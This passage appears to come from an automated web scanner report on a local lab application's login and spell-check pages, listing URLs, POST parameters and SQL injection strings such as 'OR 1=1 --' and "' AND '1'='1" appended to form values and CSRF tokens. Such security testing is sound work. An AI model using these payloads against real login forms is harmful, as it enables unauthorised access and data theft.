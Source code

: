   * Attack: `Sign in%'  -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login?next=/spell_check](http://192.168.7.30:8080/login?next=/spell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `csrf_token`
  
  
  * Attack: `ImEzYjY1YjQxOTg5YTEzM2E0ODdhNWUxMTY3MzNkNzI4Y2IzYzZjYTQi.XbIS1A.sD5LkCRn4Hpv1dyr8xuBZiZ67pc" OR "1"="1" -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login?next=/spell_check](http://192.168.7.30:8080/login?next=/spell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `csrf_token`
  
  
  * Attack: `ImEzYjY1YjQxOTg5YTEzM2E0ODdhNWUxMTY3MzNkNzI4Y2IzYzZjYTQi.XbIS1A.sD5LkCRn4Hpv1dyr8xuBZiZ67pc' AND '1'='1`
  
  
  
  
* URL: [http://192.168.7.30:8080/login](http://192.168.7.30:8080/login)
  
  
  * Method: `POST`
  
  
  * Parameter: `submit`
  
  
  * Attack: `Sign in AND 1=1 -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login](http://192.168.7.30:8080/login)
  
  
  * Method: `POST`
  
  
  * Parameter: `csrf_token`
  
  
  * Attack: `IjYxNGU2YWM5YzJlNzdiZTJiNTBjMzBlZmVmNTU0NmM3Yzk5MDhmZWYi.XbC8WQ.TM4FPbi_zW5-ggkjwVD0OtCebSU OR 1=1 -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login?next=/spell_check](http://192.168.7.30:8080/login?next=/spell_check)
  
  
  * Method: `POST`
  